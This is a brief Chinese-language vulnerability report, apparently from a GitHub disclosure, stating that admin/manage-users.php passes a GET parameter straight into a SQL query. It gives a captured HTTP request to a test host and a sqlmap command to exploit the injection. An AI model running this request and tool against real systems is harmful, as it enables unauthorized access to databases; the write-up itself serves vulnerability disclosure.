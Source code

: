 admin/manage-users.php文件中 $adminid直接拼接到sql语句中，而$adminid是通过GET请求直接获取的


![alt text](manage-users.php%20sql%20inject-1.png)


构造恶意数据包

GET /admin/manage-users.php?id=1 HTTP/1.1
Host: test.jc
Cookie: PHPSESSID=6keshioktp2eu9p7fg0ent8hk2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Referer: http://test.jc/admin/
Accept-Language: zh-CN,zh;q=0.9


run sqlmap -r get.txt --level 3

![alt text](manage-users.php%20sql%20inject-2.png)



